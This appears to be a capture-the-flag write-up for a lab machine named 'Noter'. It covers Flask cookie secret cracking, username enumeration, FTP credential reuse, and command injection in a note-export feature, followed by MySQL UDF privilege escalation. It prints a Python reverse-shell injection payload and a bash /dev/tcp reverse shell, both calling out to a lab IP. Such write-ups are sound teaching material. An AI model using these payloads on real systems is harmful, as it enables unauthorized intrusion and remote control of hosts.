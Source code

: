 # Noter

Gaining Access

As usual, we start with an Nmap scan:

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

Port 5000 was a HTTP port that was running some notetaking application.&#x20;

### JWT Token Brute Force

The web application allowed us to register or login:

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

I created a user and logged in. When I proxied the traffic through Burp, we can see that there is a JWT Session Cookie present:

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

When decrypted, we can see that it contains some data:

<figure><img src="../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

Generally, from other machine experiences, Flask uses JWT cookies to differentiate sessions. So I tried to brute force the secret of this cookie with `flask-unsign` and `rockyou.txt`.&#x20;

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

With the secret found, we can create our own cookies and make whatever username we want. However, we still need to find a username that works.

### Username Enumeration

I noticed that the website has different responses when we key in an invalid username and a valid one,

I created the `test` user and tried a wrong password, and got the `Invalid Login` warning:

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

If we did this a user that does not exist, it would tell us `Invalid Credentials`.&#x20;

<figure><img src="../../../.gitbook/assets/image (57) (1).png" alt=""><figcaption></figcaption></figure>

With this boolean condition, we can brute force all possible users within the machine. I used Burp Intruder to do so:

<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

Then I filtered the results using the `Invalid Login` string.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

So `blue` is the user on this machine. We can use the secret we found earlier to create a new cokie and sign in by replacing the cookie:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### FTP Credentials

With access to this new user, we can view more hidden notes:

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

The first one was the most interesting as it revealed some FTP Credentials:

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Logging into FTP, we can gain access to a password policy PDF.

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Reading the Password Policy, we can see that the passwords are all templated:

<figure><img src="../../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

With this hint, we can login as `ftp_admin` using `ftp_admin@Noter!`.&#x20;

### Source Code Review

WIth access to the new FTP account, we can find two website source code backups made at different times:

<figure><img src="../../../.gitbook/assets/image (40) (2).png" alt=""><figcaption></figcaption></figure>

Additionally, because we are the `blue` user, we can view the VIP dashboard which allows us to **import and export notes**.&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

When checking the Export Notes portion of code, we see that it **runs a command using a shell.**

```python
# Export remote
@app.route('/export_note_remote', methods=['POST'])
@is_logged_in
def export_note_remote():
    if check_VIP(session['username']):
        try:
            url = request.form['url']

            status, error = parse_url(url)

            if (status is True) and (error is None):
                try:
                    r = pyrequest.get(url,allow_redirects=True)
                    rand_int = random.randint(1,10000)
                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                    subprocess.run(command, shell=True, executable="/bin/bash")

                    if os.path.isfile(attachment_dir + f'{str(rand_int)}.pdf'):

                        return send_file(attachment_dir + f'{str(rand_int)}.pdf', as_attachment=True)

                    else:
                        return render_template('export_note.html', error="Error occured while exporting the !")

                except Exception as e:
                    return render_template('export_note.html', error="Error occured!")


            else:
                return render_template('export_note.html', error=f"Error occured while exporting ! ({error})")
            
        except Exception as e:
            return render_template('export_note.html', error=f"Error occured while exporting ! ({e})")

    else:
        abort(403)
```

In specific, it runs `md-to-pdf.js`, which might be an RCE vector here. So, we can create a malicious .md file that has commands within it to allow for code injection.&#x20;

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

For this case, we would need to have something to escape the first quote and command, hence we start the payload with `';`. Afterwards, we need to inject some Python code since this is a Python based website. I used a basic Python3 reverse shell.

Then, we need to end it with `#'` to close the quote and end the command:

```
';python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.12",21));
os.dup2( s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' # '
```

We can then upload this file and gain a reverse shell as the `svc` user on a listening port.

### SQL Creds

Additionally, when checking the two backups, I used `diff` to view the differences between each file. I found that some MySQL Credentials were removed from the more recent backup:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

With the MySQL Creds, we can login as root:

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

Because MySQL was running as root on the machine, we could do the `raptor_udf.so` exploit. This exploit basically uses a shared library that runs commands from the SQL plugins library. We can add a custom command that would allow us to gain RCE as the root user.

There are more detailed instructions here:

{% embed url="https://www.exploit-db.com/raw/1518" %}

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can just use the `do_system('bash -c "bash -i >& /dev/tcp/10.10.16.12/21 0>&1"');` function we defined to gain a reverse shell on the machine.&#x20;

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>
